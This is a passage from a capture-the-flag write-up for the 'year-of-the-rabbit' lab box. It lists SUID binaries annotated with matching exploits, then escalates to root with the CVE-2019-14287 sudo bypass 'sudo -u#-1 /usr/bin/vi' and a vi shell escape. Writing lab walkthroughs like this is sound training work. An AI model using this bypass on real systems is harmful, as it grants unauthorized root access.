 -rwsr-xr-x 1 root   root        39K Nov 20  2014 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root   root        40K Nov 20  2014 /bin/su
-rwsr-xr-x 1 root   root        15K Nov 28  2014 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root   root        23K Nov 28  2014 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-xr-- 1 root   messagebus 288K Feb  9  2015 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-sr-x 1 root   mail        88K Feb 11  2015 /usr/bin/procmail
-rwsr-xr-x 1 root   root        11K Feb 13  2015 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root   root       3.0M Feb 17  2015 /usr/sbin/exim4
-rwsr-xr-x 1 root   root       147K Mar 12  2015 /usr/bin/sudo  --->  /sudo$
-rwsr-xr-x 1 root   root       455K Mar 22  2015 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root   root        27K Mar 29  2015 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root   root        40K Mar 29  2015 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-- 1 root   dip        326K Apr 14  2015 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
-rwsr-xr-x 1 root   root        11K Apr 15  2015 /usr/lib/pt_chown  --->  GNU_glibc_2.1/2.1.1_-6(08-1999)
```
I'm mostly looking at SUID binaries and ssh keys, but now It doesn't seem to be the case.

Running ```sudo -l``` gives me though:
```
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on
        year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```
So it looks like I can edit a file user.txt as a sudo without giving a password via executing vi.  
But it gets more complicated, because this file cannot be run as root (so we cannot use ```sudo``` too).

```
sudo /usr/bin/vi /home/gwendoline/user.txt 
[sudo] password for gwendoline: 
Sorry, user gwendoline is not allowed to execute '/usr/bin/vi user.txt' as root on year-of-the-rabbit.
```
### CVE-2019-14287
There's a CVE though that relates to setting NOPASSWD rule for everyone except root. Here's the [link](https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287)

![cve](https://i.imgur.com/7eKzWlV.png)
So this is the flag... ```-u#-1``` Let's modify our previous command to:  
```sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt``` 
And within the file, proceed with the GTFOBins 
![gtfo-bins](https://i.imgur.com/Sjl3clR.png)
I'll use the second option After that, we get a root shell and we can see the flag in ```/root/root.txt```
Amazing, it was exciting box with so many elements putted into it.

